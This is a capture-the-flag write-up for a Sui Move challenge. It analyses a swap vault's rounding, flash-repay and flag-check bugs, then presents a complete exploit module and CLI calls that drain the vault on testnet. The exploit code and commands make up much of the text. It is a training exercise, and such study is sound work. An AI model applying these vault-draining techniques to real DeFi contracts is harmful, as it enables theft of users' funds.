




# Task 8

This is an additional challenge in week 4.

## Contract analysis

We have 2 tokens A and B, which basically does the same thing:

```rust
fun init(witness: CTFA, ctx: &mut TxContext){
    // Get a treasury cap for the coin and give it to the transaction sender
    let (treasury_cap, metadata) = coin::create_currency<CTFA>(witness, 1, b"CTF", b"CTF", b"Token for move ctf", option::none(), ctx);
    let mint = MintA<CTFA> {
        id: object::new(ctx),
        cap:treasury_cap
    };
    transfer::share_object(mint);
    transfer::public_freeze_object(metadata);
}

public(package) fun mint_for_vault<CTFA>(mut mint: MintA<CTFA>, ctx: &mut TxContext): Coin<CTFA> {
    let coinb = coin::mint<CTFA>(&mut mint.cap, 100, ctx);
    coin::mint_and_transfer(&mut mint.cap, 10, tx_context::sender(ctx), ctx);
    let MintA<CTFA> {
        id: ida,
        cap: capa
    } = mint;
    object::delete(ida);
    transfer::public_freeze_object(capa);
    coinb
}
```

When contract is deployed, `init` will be called and we get public `MintA` / `MintB` objects. `mint_for_vault` does two things: 1) Mints 100 `$CTFA` to the vault, plus 10 `$CTFA` to ourselves.

In swap contract:

```rust
public entry fun initialize<A,B>(capa: MintA<A>, capb: MintB<B>,ctx: &mut TxContext) {
    let vault = Vault<A, B> {
        id: object::new(ctx),
        coin_a: coin::into_balance(ctfa::mint_for_vault(capa, ctx)),
        coin_b: coin::into_balance(ctfb::mint_for_vault(capb, ctx)),
        flashed: false
    };
    transfer::share_object(vault);
}
```

We are starting off with a Vault of 100A+100B, and we own 10A+10B. The condition of `get_flag` is to make Vault 0A+0B.

```rust
public fun swap_a_to_b<A,B>(vault: &mut Vault<A,B>, coina:Coin<A>, ctx: &mut TxContext): Coin<B> {
    let amount_out_B = coin::value(&coina) * balance::value(&vault.coin_b) / balance::value(&vault.coin_a);
    coin::put<A>(&mut vault.coin_a, coina);
    coin::take(&mut vault.coin_b, amount_out_B, ctx)
}
```

The first bug we noticed is rounding error: since we are doing a division to get integer amount, precision can be lost.

`flash` and `repay_flash` seems normal, but the second bug we notice is during repay, it only checks amount in receipt, not the exact coin we flashed.

```rust
public fun repay_flash<A,B>(vault: &mut Vault<A,B>, coina: Coin<A>, coinb: Coin<B>, receipt: Receipt) {
    let Receipt {
        id: _,
        a_to_b: a2b,
        repay_amount: amount
    } = receipt;
    if (a2b) {
        assert!(coin::value(&coinb) >= amount, 0);
    } else {
        assert!(coin::value(&coina) >= amount, 1);
    };
    balance::join(&mut vault.coin_a, coin::into_balance(coina));
    balance::join(&mut vault.coin_b, coin::into_balance(coinb));
    vault.flashed = false;
}
```

The final bug is that `get_flag` does not check if flashed is false, so we can do a flash and claim flag if possible:

```rust
public fun flash<A,B>(vault: &mut Vault<A,B>, amount: u64, a_to_b: bool, ctx: &mut TxContext): (Coin<A>, Coin<B>, Receipt) {
    assert!(!vault.flashed, 1);
    let (coin_a, coin_b) = if (a_to_b) {
    (coin::zero<A>(ctx), coin::from_balance(balance::split(&mut vault.coin_b, amount ), ctx))
    }
    else {
    (coin::from_balance(balance::split(&mut vault.coin_a, amount ), ctx), coin::zero<B>(ctx))
    };

    let receipt = Receipt {
        id: object::id(vault),
        a_to_b,
        repay_amount: amount
    };
    vault.flashed = true;

    (coin_a, coin_b, receipt)

}
```

If we reverse the solve step, when we have a Vault where either A or B has balance of 0, say 0A+50B, and we haven't called `flash` before, we can directly call `flash` with amount of 50 and `a_to_b: true` - this gives a Vault of 0A+0B which we can call `get_flag`, and then call `repay_flash` to return the coins to Vault. We needed the last step because `Receipt` struct has no `drop` property so it needs to be consumed.

## Solve Path

Given above 3 bugs, we can chain them to get a valid solve:

1. Call `vault::initialize` to get the vault -> Vault: 100 A, 100 B / User: 10 A, 10 B
2. `swap_a_to_b(vault, our_10a)`: our_10b=10, coin_b=10*100/100=10, vault:110/90
3. `swap_b_to_a(vault, our_10b)`: coin_a=10*110/90=12, coin_b=10, vault:98/100
4. `swap_a_to_b(vault, coin_a)`: coin_b2=12*100/98=12, vault:110/88 -> Here we merge the coin_b=10 from above so coin_b2=12+10=22
5. `swap_b_to_a(vault, coin_b2)`: coin_a2=22*110/88=27, vault:83/110
6. `swap_a_to_b(vault, coin_a2)`: coin_b3=27*110/83=35, vault:110/75
7. `swap_b_to_a(vault, coin_b3)`: coin_a3=35*110/75=51, vault:59/110
8. `swap_a_to_b(vault, coin_a3)`: coin_b4=51*110/59=95, vault:110/15
9. We split coin_b4 into coin_b40=15
10. `swap_b_to_a(vault, coin_b40)`: coin_a4=15*110/15=110, vault:0/30
11. `flash(vault, 30, true)`: vault: 0/0
12. Repay the flash and destroy remaining unused coins

## Exploit Remote



We update `Move.toml` of task8 to

```toml
[package]
name = "task8"
edition = "2024.beta"
published-at = "0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6"

[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }

[addresses]
task8 = "0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6"
```

And solve_task8 to

```toml
[package]
name = "solve_task8"
edition = "2024.beta" # edition = "legacy" to use legacy (pre-2024) Move

[dependencies.task8]
local = "../task8"

[addresses]
solve_task8 = "0x0"
task8 = "0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6"
```

Now we publish the solve contract

```rust
module solve_task8::solve {
    use sui::coin::{Coin, join, split};
    use task8::vault::{Vault, flash, repay_flash, swap_a_to_b, swap_b_to_a, get_flag};

    public fun swap_rounds<A,B>(vault: &mut Vault<A,B>, our_10a: Coin<A>, our_10b: Coin<B>, ctx: &mut TxContext) {
        // Use user coin of 10 A and 10 B for initial swapping
        let coin_b = swap_a_to_b(vault, our_10a, ctx); // our_10b=10, coin_b=10, vault:110/90
        let coin_a = swap_b_to_a(vault, our_10b, ctx); // coin_a=12, coin_b=10, vault:98/100
        // keep swapping until A or B balance reaches 0 in vault
        let mut coin_b2 = swap_a_to_b(vault, coin_a, ctx); // coin_b2=12, vault:110/88
        coin_b2.join(coin_b); // coin_b=22, vault:110/88
        let coin_a2 = swap_b_to_a(vault, coin_b2, ctx); // coin_a2=27, vault:83/110
        let coin_b3 = swap_a_to_b(vault, coin_a2, ctx); // coin_b3=35, vault:110/75
        let coin_a3 = swap_b_to_a(vault, coin_b3, ctx); // coin_a3=51, vault:59/110
        let mut coin_b4 = swap_a_to_b(vault, coin_a3, ctx); // coin_b4=95, vault:110/15
        let coin_b40 = coin_b4.split(15, ctx);
        let coin_a4 = swap_b_to_a(vault, coin_b40, ctx); // coin_a4=110, vault:0/30
        let (coin_a5, coin_b5, receipt) = flash(vault, 30, true, ctx); // vault:0/0
        get_flag(vault, ctx);
        repay_flash(vault, coin_a5, coin_b5, receipt);
        transfer::public_transfer(coin_a4, @0x0);
        transfer::public_transfer(coin_b4, @0x0);
    }
}
```

```bash
# sui client publish
Transaction Digest: DFYkn1eNFzkLecgqKTKXkSDfrv45fo67BdvesFpZdEYD
...
│ Published Objects:                                                                               │
│  ┌──                                                                                             │
│  │ PackageID: 0x85384c40c8552d2fb658c3f93991976f5ca864bf99b9dcdc24c5ee2948298831                 │
│  │ Version: 1                                                                                    │
│  │ Digest: EQ8H6NTi3VFiRFN8PoN8PjzZMWPGAG9rAsRMjp9x7QiK                                          │
│  │ Modules: solve                                                                                │
│  └──                                           
...
```

Inspecting the [transaction](https://suiscan.xyz/testnet/tx/AZUcz1ABpaTbiRGByvq2aWpyu97ZPrJagQ5jiCTYeYv4) we also get a few object ids:



Then we can call `initialize` to obtain vault:

```bash
export PACKAGEID=0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6
export MINTA=0x6c5a1640218a24674f06772d0b97352e5caf981d7d08f08a707f51d6af1cbf15
export MINTB=0x546e62bcd2163d88ac896104ea5c8623a0c60d7b6f6a0a8ff53a81e9fcc67190
sui client call --package $PACKAGEID --module vault --function initialize \
  --type-args $PACKAGEID::ctfa::CTFA $PACKAGEID::ctfb::CTFB \
  --args $MINTA $MINTB --gas-budget 100000000
```

Output:

```
...
ObjectID: 0x8a0ba321577a4eaf5f069e0d06980e9e5c0a84eb7a659ffc9899778dbd0f2788
...
ObjectType: 0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6::vault::Vault<0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6::ctfa::CTFA, 0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6::ctfb::CTFB>
...
```

We then inspect our own account to see the 10 tokens we have for A and B:



Finally we can call the solve function via CLI:

```bash
export VAULT=0x8a0ba321577a4eaf5f069e0d06980e9e5c0a84eb7a659ffc9899778dbd0f2788
export SOLVE=0x85384c40c8552d2fb658c3f93991976f5ca864bf99b9dcdc24c5ee2948298831
export COINA=0xa60a3511fe86b43a378d36ed2a2ab8a7b88e54dd451f51281ccd2bdb148de46a
export COINB=0x658dc9ba9c93358767ffb0a275427787c960378eb88987d95a9c62fed467227a
sui client call --package $SOLVE --module solve --function swap_rounds \
  --type-args $PACKAGEID::ctfa::CTFA $PACKAGEID::ctfb::CTFB \
  --args $VAULT $COINA $COINB --gas-budget 100000000
```

Output:

```
Transaction Digest: DRkeTzmuMHLvrgtZrPe84VLb16ocFizYa4fPBtJoqV7v
...
╭───────────────────────────────────────────────────────────────────────────────────────────────╮
│ Transaction Block Events                                                                      │
├───────────────────────────────────────────────────────────────────────────────────────────────┤
│  ┌──                                                                                          │
│  │ EventID: DRkeTzmuMHLvrgtZrPe84VLb16ocFizYa4fPBtJoqV7v:0                                    │
│  │ PackageID: 0x85384c40c8552d2fb658c3f93991976f5ca864bf99b9dcdc24c5ee2948298831              │
│  │ Transaction Module: solve                                                                  │
│  │ Sender: 0x2adc8577ba2c67b74a0c1d811072827952ce765329e41e22882d4b69b8bfa93a                 │
│  │ EventType: 0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6::vault::Flag │
│  │ ParsedJSON:                                                                                │
│  │   ┌────────┬────────────────────────────────────────────────────────────────────┐          │
│  │   │ sender │ 0x2adc8577ba2c67b74a0c1d811072827952ce765329e41e22882d4b69b8bfa93a │          │
│  │   ├────────┼────────────────────────────────────────────────────────────────────┤          │
│  │   │ win    │ true                                                               │          │
│  │   └────────┴────────────────────────────────────────────────────────────────────┘          │
│  └──                                                                                          │
╰───────────────────────────────────────────────────────────────────────────────────────────────╯
...
```

This gives us the flag :)

